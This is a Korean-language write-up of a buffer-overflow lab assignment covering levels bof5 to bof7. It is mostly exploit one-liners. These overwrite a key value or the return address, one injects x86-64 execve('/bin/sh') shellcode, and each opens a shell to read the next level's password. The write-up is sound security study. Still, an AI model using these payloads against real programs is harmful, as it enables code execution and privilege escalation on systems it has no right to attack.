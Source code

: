 # Assignment 3

```shell
 $ docker run -it --privileged ccss17/bof
```

> ID는 bof5, Password는 bof4에서 밝혀냈음.

<br/>

### 8 - bof5

```shell
 $ vi bof5.c
```

![08-bof5_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/08-bof5_code.png?raw=true)

bof5.c의 소스 코드를 확인한다.

![08-disas](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/08-disas_vuln.png?raw=true)

함수의 구성을 확인한다.

```shell
 $ (python -c "print '/bin/sh\x00'+'x'*132+'\x78\x56\x34\x12'";cat) | ./bof5
```

↑ Little endian 식의 키 값(\x78\x56\x34\x12)을 넣어준 코드임 ↑

![08-pw](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/08-pw.png?raw=true)

쉘을 열어주고
쉘 권한으로 bof6.pw를 읽어준다.

> bof6의 비밀번호는 b35aad61 이다.

<br/>
<br/>

### 9 - bof6

```shell
 $ vi bof6.c
```

![09-bof5\6_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/08-bof5_code.png?raw=true)

bof6.c의 소스 코드를 확인한다.

**(python -c "print 'x'\*< BUF to RETURN ADDRESS >+'< SHELLCODE ADDRESS >'";cat) | ./bof6**

<br/>

buf와 return address의 거리는 136이다. (buf_size + SFP)

<img src = "https://github.com/YYYEJI/SECURITY/blob/master/img/09-pw.png?raw=true" width="30%" height="20%">

쉘을 열어주고
쉘 권한으로 bof7.pw를 읽어준다.

> bof7의 비밀번호는 ffa35d7e 이다.

<br/>
<br/>

### 10 - bof7

```shell
 $ vi bof7.c
```

![10-bof7_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/10-bof6_code.png?raw=true)

bof7.c의 소스 코드를 확인한다.

<br/>

buf와 return address의 거리는 136이다.
그리고 8byte를 덮어줘야 하기 때문에 전달해야 할 인자값은 144byte이다.

<br/>

```shell
 $  ./bof7 `python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + 'x'*109 + '\xb0\xea\xff\xff\xff\x7f'"`
```

![10-pw](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/10-pw.png?raw=true)

쉘을 열어주고
쉘 권한으로 bof8.pw를 읽어준다.

> bof7의 비밀번호는 0dc54105 이다.
